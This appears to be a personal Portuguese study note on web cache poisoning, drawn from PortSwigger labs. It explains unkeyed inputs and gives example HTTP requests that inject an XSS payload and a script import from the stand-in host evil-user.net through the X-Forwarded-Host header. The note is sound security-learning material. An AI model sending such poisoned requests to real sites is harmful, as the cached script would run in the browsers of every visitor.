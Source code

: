 #web #vuln

O web cache serve para diminuir a carga de trabalho de um servidor, reduzindo o número de requisições duplicadas ao salvar uma cópia de uma resposta no cache. Quando o cache recebe uma requisição HTTP, ele verifica se existe uma resposta que serve para essa requisição através da cache key, formada por componentes do header. Componentes do header que não são inclusos na key são chamados de "unkeyed".

O web cache poisoning possui três passos:
1. Identificar unkeyed inputs
	1. A extensão **Param Miner** do Burp (BApp Store) automatiza isso mas é importante adicionar a opção para criar um *cache buster* a cada requisição para não prejudicar outros usuários ou o site.
2. Descobrir como obter uma resposta do backend com um payload crítico
3. Garantir que essa resposta seja armazenada em cache

## Explorando falhas

### [[XSS]]

Esse é a forma mais comum, quando um unkeyed input é refletida na resposta sem sanitização adequada. Por exemplo:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: innocent-website.co.uk 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Neste caso o valor do **X-Forwarded-Host** é usado na url da resposta para gerar uma imagem. Colocando um script em seu lugar:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: a."><script>alert(1)</script>" 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

Neste exemplo, todos usuários que entrar em region=uk vai cair nesse script.

### Importações de recursos inseguras

Semelhante a situação anterior, ao descobrir que X-Forwarded-Host  é uma unkeyed input um possível teste seria colocar o seu domínio com um js que ao ser importado pela página ele irá executar.

```
GET / HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: evil-user.net

HTTP/1.1 200 OK 
<script src="https://evil-user.net/static/analytics.js"></script>
```

Lab: [[Web cache poisoning - with an unkeyed header]]
### Cookie handling

Há situações que valores que estão no cookie não são usados no cache key, sendo alvo de web cache poisoning

Lab: [[Web cache poisoning - unkeyed cookie]]



## Referências
https://portswigger.net/web-security/web-cache-poisoning